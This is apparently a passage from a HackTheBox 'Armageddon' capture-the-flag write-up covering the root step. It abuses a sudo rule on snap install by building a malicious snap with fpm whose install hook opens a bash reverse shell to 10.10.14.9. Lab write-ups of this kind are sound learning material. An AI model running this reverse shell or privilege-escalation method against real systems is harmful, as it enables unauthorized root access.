 ![](/images/HTB/Armageddon/user.png)

# Getting root
One of the first things I check after getting a new user is `sudo -l`, and in this case we find that we can run `(root) NOPASSWD: /usr/bin/snap install *`. Heading over to GTFOBins we see that there is a way to to use sudo with snap to maintain privileges. It tells us that we need to create a package with `fpm` and gives us a link to the GitHub page as well as giving us the instructions for creating the package. Heading over to the GitHub page we find a link to the installation guide, and following that we can get fpm installed.

```
apt-get install ruby ruby-dev rubygems build-essential
gem install --no-document fpm
```
Once we have fpm installed we can follow the directions on GTFOBins to create the file, however we are going to make a few changes. Rather than using the `$COMMAND` variable I'm going to insert the command directly. I'm also going to skip using the temp directory so I can keep the files in my notes for the box.

The sample code is using `sh` as the interpreter for the command we are running and I'm going to change that to bash so we don't have problem with the file descriptors in the reverse shell command.

```
mkdir -p meta/hooks
printf '#!/bin/bash\n%s; false' "bash -i >& /dev/tcp/10.10.14.9/6868 0>&1" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta

```

Once the file is generated we can grab it with curl and run the `sudo snap install xxxx_1.0_all.snap --dangerous --devmode` that is given to us.

![](/images/HTB/Armageddon/root.png)
